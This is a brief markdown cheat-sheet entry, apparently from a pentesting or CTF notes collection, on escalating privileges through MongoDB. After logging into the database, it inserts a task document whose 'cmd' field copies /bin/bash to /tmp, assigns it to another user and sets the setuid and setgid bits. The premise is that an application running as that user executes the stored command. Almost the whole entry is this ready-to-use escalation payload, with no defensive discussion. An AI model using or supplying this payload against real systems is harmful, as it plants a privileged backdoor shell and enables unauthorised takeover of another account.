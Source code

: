## Requirements: An application that uses the database runs as the owner we want to escalate

## Steps:

#### 1) mongo -p -u USER DATABASE

#### 2) db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/bash; /bin/chown tom:admin /tmp/bash; chmod g+s /tmp/bash; chmod u+s /tmp/bash"}); (Copies the bash binary and gives ownership and SGID set with the context of the user that the database is running)
